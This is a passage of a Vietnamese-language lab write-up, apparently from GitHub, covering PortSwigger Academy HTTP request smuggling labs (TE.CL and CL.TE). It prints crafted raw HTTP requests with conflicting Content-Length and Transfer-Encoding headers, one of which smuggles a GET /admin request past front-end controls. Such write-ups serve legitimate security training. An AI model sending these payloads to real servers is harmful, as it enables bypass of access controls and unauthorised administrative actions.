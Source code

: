  ```
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
 ```

Tương tự như vậy chúng ta thử thay thế request như sau : 
      
```
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```
 và làm tương tự như những bài lab trước.
 ![img](https://github.com/datnlq/Source/blob/main/HTTP%20request%20smuggling/image/SSTI_TECLdiff_notfound.png?raw=true)
 
 
 ![img](https://github.com/datnlq/Source/blob/main/HTTP%20request%20smuggling/image/SSTI_TECLdiff_solve.png?raw=true)
 
 
 
 
 ### Lab: Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability
 ```
 This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. There's an admin panel at /admin, but the front-end server blocks access to it.

To solve the lab, smuggle a request to the back-end server that accesses the admin panel and deletes the user carlos.
 ```
Bài lab cơ bản vẫn như những bài trước, tuy nhiên lần này chúng ta có thêm bảng điều khiển là admin tuy nhiên server frond-end đã block lại. Điều kiện để chúng ta solve bài lab đó chính là dựa trên admin xóa user carlos.

![img](https://github.com/datnlq/Source/blob/main/HTTP%20request%20smuggling/image/SSTI_CLTE_control_check.png?raw=true)

```
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-Ignore: X
```
